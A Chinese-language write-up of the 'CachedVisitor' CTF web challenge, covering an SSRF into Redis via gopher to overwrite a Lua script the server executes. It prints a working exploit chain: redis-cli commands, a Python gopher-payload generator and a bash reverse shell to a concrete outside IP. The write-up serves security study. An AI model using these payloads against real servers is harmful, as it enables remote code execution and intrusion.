

# ccsssc2025-Web-CachedVisitor


docker+ssrf+redis

## 先行分析

查看dockerfile

```
...
COPY nginx.conf /usr/local/openresty/nginx/conf/nginx.conf
COPY index.html /usr/local/openresty/nginx/html/index.html
COPY main.lua /usr/local/openresty/nginx/lua/main.lua
RUN mkdir /scripts
COPY scripts/* /scripts
RUN chmod +x -R /scripts
...

COPY redis.conf /redis.conf

COPY start.sh /
RUN chmod +x /start.sh

COPY flag /flag
COPY readflag /readflag
RUN chmod 400 /flag
RUN chmod +xs /readflag

EXPOSE 80
CMD ["/start.sh"]
```

可以看到，这个web服务配置了一个main.lua脚本，然后又把scripts里面的文件复制到/scripts目录下，同时还启动了redis服务


main.lua

```lua
local function read_file(filename)
    local file = io.open(filename, "r")
    if not file then
        print("Error: Could not open file " .. filename)
        return nil
    end

    local content = file:read("*a")
    file:close()
    return content
end

local function execute_lua_code(script_content)
    local lua_code = script_content:match("##LUA_START##(.-)##LUA_END##")
    if lua_code then
        local chunk, err = load(lua_code)
        if chunk then
            local success, result = pcall(chunk)
            if not success then
                print("Error executing Lua code: ", result)
            end
        else
            print("Error loading Lua code: ", err)
        end
    else
        print("Error: No valid Lua code block found.")
    end
end

local function main()
    local filename = "/scripts/visit.script"
    local script_content = read_file(filename)
    if script_content then
        execute_lua_code(script_content)
    end
end

main()
```

读取文件内容，匹配了一下`##LUA_START##`开头，`##LUA_END##`结尾的中间的代码，然后执行


visit.script

```lua
##LUA_START##
local curl = require("cURL")
local redis = require("resty.redis")

ngx.req.read_body()
local args = ngx.req.get_uri_args()
local url = args.url

if not url then
    ngx.say("URL parameter is missing!")
    return
end

local red = redis:new()
red:set_timeout(1000)

local ok, err = red:connect("127.0.0.1", 6379)
if not ok then
    ngx.say("Failed to connect to Redis: ", err)
    return
end

local res, err = red:get(url)
if res and res ~= ngx.null then
    ngx.say(res)
    return
end

local c = curl.easy {
    url = url,
    timeout = 5,
    connecttimeout = 5
}

local response_body = {}

c:setopt_writefunction(table.insert, response_body)

local ok, err = pcall(c.perform, c)

if not ok then
    ngx.say("Failed to perform request: ", err)
    c:close()
    return
end

c:close()

local response_str = table.concat(response_body)

local ok, err = red:setex(url, 3600, response_str)
if not ok then
    ngx.say("Failed to save response in Redis: ", err)
    return
end

ngx.say(response_str)
##LUA_END##
```

连接到redis，从redis中获取与url参数对应的缓存数据


rdbcompression yes --在附件里给的redis配置文件第461行，主要作用就是开启rdb存储压缩。redis有两种持久化方式，一种叫rdb一种叫aof，有兴趣可以自查。并且，redis所有配置信息都可以在终端中用config get keyname的方式获取到


## 环境搭建

管理员模式打开powershell
```
wsl --set-default-version 2
wsl --update
```

docker desktop 4.29.0 控制版本，最新版面板加载不出来

挂代理方式一

settings->resources->proxies


挂代理方式二

手机开热点和局域网代理，手机IP可以在设置里搜到

电脑连接手机热点后->网络和internet->代理

打开自动检测设置，手动设置代理中设置使用代理服务器，代理服务器填手机ip，端口填局域网代理的端口


删除`C:\Users\21609\.docker\config.json`

直接启动环境会挂掉，先手动docker pull 一下


```
docker pull openresty/openresty:bionic
```


在附件的docker文件夹下启动cmd

```
docker build -t cachedvisitor . 
```


run一下


dict协议访问一下

```
dict://127.0.0.1:6379/info
```


## 复现漏洞

考虑覆盖visit.script进行反弹shell


```bash
#连接到redis
redis-cli -h 127.0.0.1 -p 6379
#查看键
keys *
#查看键对应的值
get "dict://127.0.0.1:6379/info"
```




```
nc -lvvp 9999
```


```bash
#删除数据库中的所有键
flushall
set 8 \n\n##LUA_START##\nio.popen("bash -c \'bash -i >& /dev/tcp/120.46.164.35/6800 0>&1\'")\n##LUA_END##\n\n
#更改Redis的工作目录
config set dir /scripts
#更改Redis数据库文件的名称
config set dbfilename visit.script
#命令Redis保存当前数据库状态到磁盘
save
#退出redis命令行，不然没回显
quit
```


```
*1指的是的数量，可理解为下条指令由几个元素构成
$8指的是长度，可理解为下个元素的长度
```


```python
import urllib.parse

content="""\n\n##LUA_START##\nio.popen("bash -c \'bash -i >& /dev/tcp/120.46.164.35/6800 0>&1\'")\n##LUA_END##\n\n"""
len_content = len(content) + 4 #有content上下有4个换行
dir="/scripts"
filename="visit.script"
payload = f"""*1\r
$8\r
flushall\r
*3\r
$3\r
set\r
$1\r
8\r
${str(len_content)}\r


{content}


\r
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
${str(len(dir))}\r
{dir}\r
*4\r
$6\r
config\r
$3\r
set\r
$10\r
dbfilename\r
${str(len(filename))}\r
{filename}\r
*1\r
$4\r
save\r
*1\r
$4\r
quit\r

"""

result=urllib.parse.quote_plus(payload).replace("+", "%20").replace("%2F", "/").replace("%25", "%").replace("%3A", ":")
print("gopher://127.0.0.1:6379/_"+result)
```


把结果复制到网页上visit一下，如果是burpsuite，应当二次urlencode


可看到visit.script内容已经被修改


再随便输点东西visit一下触发代码，可以在攻击机看到连接成功


没有读取权限，运行已有的readflag脚本就行


## 参考

https://redshome.top/2025/01/06/%E8%BD%AF%E4%BB%B6%E7%B3%BB%E7%BB%9F%E5%AE%89%E5%85%A8-cachedvisitor-writeup/

[CachedVisitor详解 1674701160110592](https://xz.aliyun.com/t/17036)
